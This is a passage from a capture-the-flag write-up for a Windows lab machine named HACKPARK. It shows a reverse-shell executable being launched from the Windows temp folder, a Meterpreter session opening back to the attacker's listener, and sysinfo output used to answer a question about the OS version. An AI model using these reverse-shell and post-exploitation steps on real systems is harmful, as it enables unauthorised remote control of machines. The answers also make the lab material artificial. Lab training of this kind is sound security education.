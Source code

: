 Now, back to the reverse shell, let's start the executable:

~~~
c:\windows\system32\inetsrv>cd \windows\temp
dir
c:\Windows\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Windows\Temp
05/17/2020  07:01 AM    <DIR>          .
05/17/2020  07:01 AM    <DIR>          ..
08/06/2019  02:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
08/06/2019  02:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
08/06/2019  02:13 PM             1,206 cleanup.txt
08/06/2019  02:13 PM               421 cmdout
08/06/2019  02:11 PM                 0 DMI2EBC.tmp
08/03/2019  10:43 AM                 0 DMI4D21.tmp
08/06/2019  02:12 PM             8,743 EC2ConfigService_20190806141221.log
08/06/2019  02:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
05/17/2020  07:01 AM            73,802 revshell.exe
08/06/2019  02:13 PM                21 stage1-complete.txt
08/06/2019  02:13 PM            28,495 stage1.txt
05/12/2019  09:03 PM           113,328 svcexec.exe
08/06/2019  02:13 PM                67 tmp.dat
              13 File(s)        708,784 bytes
               2 Dir(s)  39,143,284,736 bytes free
.\revshell.exe
c:\Windows\Temp>.\revshell.exe
~~~

In your `msfconsole`, you should now have a meterpreter:

~~~
[*] Sending stage (176195 bytes) to 10.10.79.198
[*] Meterpreter session 1 opened (10.9.0.54:2345 -> 10.10.79.198:54675) at 2020-05-17 16:05:38 +0200

meterpreter > 
~~~

## #4.2

**Instructions**

You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then feed this information into the [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) script and quickly identify any obvious vulnerabilities.

What is the OS version of this windows machine?

**Answer**

~~~
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
~~~
